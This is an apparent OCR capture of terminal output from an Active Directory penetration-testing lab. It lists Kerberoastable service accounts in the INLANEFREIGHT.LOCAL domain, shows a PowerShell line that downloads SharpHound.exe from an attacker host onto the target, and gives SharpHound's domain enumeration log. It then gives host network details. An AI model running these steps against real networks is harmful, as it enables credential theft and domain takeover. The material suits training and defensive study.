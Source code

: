 [*] DistinguishedName : CN=svc_sql,CN=Users,DC=INLANEFREIGHT,DC=LOCAL

[*] ServicePrincipalName : MSSQLSvc/SQL01.inlanefreight.local:1433

[*] PwdLastSet : 3/30/2022 2:14:52 AM

[*] Supported ETypes : RC4_HMAC_DEFAULT

[*] Hash : <SNIP>

​

[*] SamAccountName : sqlprod

[*] DistinguishedName : CN=sqlprod,CN=Users,DC=INLANEFREIGHT,DC=LOCAL

[*] ServicePrincipalName : MSSQLSvc/SQL02.inlanefreight.local:1433

[*] PwdLastSet : 3/30/2022 2:14:56 AM

[*] Supported ETypes : RC4_HMAC_DEFAULT

[*] Hash : <SNIP>

​

PS C:\> (New-Object Net.WebClient).DownloadFile('http://10.10.15.123:8000/SharpHound.exe','C:\SharpHound.exe')

PS C:\> .\SharpHound.exe -c All --zipfilename INLANEFREIGHT

2023-03-07T01:55:30.1761195-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote

2023-03-07T01:55:30.1917471-08:00|INFORMATION|Initializing SharpHound at 1:55 AM on 3/7/2023

2023-03-07T01:55:30.4104919-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote

2023-03-07T01:55:30.5823958-08:00|INFORMATION|Beginning LDAP search for INLANEFREIGHT.LOCAL

2023-03-07T01:56:00.7697876-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 49 MB RAM

2023-03-07T01:56:16.0197153-08:00|INFORMATION|Producer has finished, closing LDAP channel

2023-03-07T01:56:16.0197153-08:00|INFORMATION|LDAP channel closed, waiting for consumers

2023-03-07T01:56:16.2072173-08:00|INFORMATION|Consumers finished, closing output channel

2023-03-07T01:56:16.2540840-08:00|INFORMATION|Output channel closed, waiting for output task to complete

Closing writers

2023-03-07T01:56:16.7697094-08:00|INFORMATION|Status: 3626 objects finished (+3626 78.82609)/s -- Using 104 MB RAM

2023-03-07T01:56:16.7697094-08:00|INFORMATION|Enumeration finished in 00:00:46.1929398

2023-03-07T01:56:17.0353396-08:00|INFORMATION|SharpHound Enumeration Completed at 1:56 AM on 3/7/2023! Happy Graphing!

​


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0